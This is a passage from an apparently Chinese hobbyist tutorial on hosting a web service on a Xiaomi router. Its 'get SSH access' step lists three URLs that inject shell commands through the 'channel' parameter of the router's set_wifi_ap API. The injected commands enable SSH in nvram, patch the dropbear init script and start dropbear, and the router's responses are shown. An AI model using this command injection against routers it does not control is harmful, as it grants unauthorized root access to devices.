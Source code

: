 	![](利用小米路由器搭建Web服务（博客、网页）.assets/image-20220314163202.png)
3. 获取SSH权限
	[登录路由器后台](http://192.168.31.1/)，从网页URL可以获取 \<stok\> 值
	![](利用小米路由器搭建Web服务（博客、网页）.assets/image-20220315132101.png)
	网线或Wi-Fi连接路由器，分别输入以下三个连接，即可获取SSH权限和设置密码
	```html
	# Step1 输入

	http://192.168.31.1/cgi-bin/luci/;stok=<stok>/api/xqnetwork/set_wifi_ap?ssid=Xiaomi&encryption=NONE&enctype=NONE&channel=1%3Bnvram%20set%20ssh%5Fen%3D1%3B%20nvram%20commit
	## Step1 输出
	{msg:未能连接到指定WiFi(Connecting),code:1616}
	
	## Step2 输入
	http://192.168.31.1/cgi-bin/luci/;stok=<stok数值>/api/xqnetwork/set_wifi_ap?ssid=Xiaomi&encryption=NONE&enctype=NONE&channel=1%3Bsed%20%2Di%20%22%3Ax%3AN%3As%2Fif%20%5C%5B%2E%2A%5C%3B%20then%5Cn%2E%2Areturn%200%5Cn%2E%2Afi%2F%23tb%2F%3Bb%20x%22%20%2Fetc%2Finit.d%2Fdropbear
	## Step2 输出
	{msg:未能连接到指定WiFi(Probe timeout),code:1616}
	
	## Step3 输入
	http://192.168.31.1/cgi-bin/luci/;stok=<stok数值>/api/xqnetwork/set_wifi_ap?ssid=Xiaomi&encryption=NONE&enctype=NONE&channel=1%3B%2Fetc%2Finit.d%2Fdropbear%20start
	## Step3 输出
	{msg:未能连接到指定WiFi(Probe timeout),code:1616}
	